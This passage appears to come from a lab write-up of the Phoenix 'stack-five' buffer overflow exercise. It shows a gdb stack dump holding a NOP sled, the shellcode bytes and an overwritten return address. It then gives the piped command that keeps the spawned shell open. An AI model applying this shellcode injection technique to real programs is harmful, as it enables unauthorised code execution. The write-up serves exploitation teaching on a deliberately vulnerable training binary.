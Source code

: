 I added a bunch of \x90s at the beginning and removed letters after our shellcode so that our return address will still be in the right place. I then also changed the return address to jump to somewhere in the middle of all those NOPs. Lets look at the stack with this input in gdb:

```
(gdb) x/48wx $rsp
0x7fffffffe490:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe4a0:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe4b0:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe4c0:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe4d0:	0xbb48c031	0x91969dd1	0xff978cd0	0x53dbf748
0x7fffffffe4e0:	0x52995f54	0xb05e5457	0x58050f3b	0x59585858
0x7fffffffe4f0:	0x5a595959	0x61615a5a	0x62626161	0x63636262
0x7fffffffe500:	0x64646363	0x65656464	0x66666565	0x67676766
0x7fffffffe510:	0x68686867	0x69696968	0xffffe490	0x00007fff
0x7fffffffe520:	0xffffe588	0x00007fff	0x00000000	0x00000001
0x7fffffffe530:	0x00000001	0x00000000	0xf7d8fd62	0x00007fff
0x7fffffffe540:	0x00000000	0x00000000	0xffffe580	0x00007fff
```



##### A shell needs input

When we execute the shell with our exploit it expects input, from stdin. But we used a program and redirected it's stdout into the input of the shell and once our program was done executing /bin/dash it closed the pipe, hence the shell had no way to get any input and just exits.  
There is a trick to get around that tho, when we use "cat" without any input it simply redirects its stdin to its stdout. We can chain our input and cat together and redirect their combined output into ./stack-five. As far as I know that is not possible from within gdb tho, good thing that we added some NOPs so we can execute it from anywhere.  

```
user@phoenix-amd64:/tmp$ (python exploit.py ; cat) | /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

Done. Now isn't that beautiful? We got a Program with basically no intended functionality to execute a shell for us. Sadly it is not a root shell since the program does not have root privileges but at least to me it's quite pleasant anyway :)

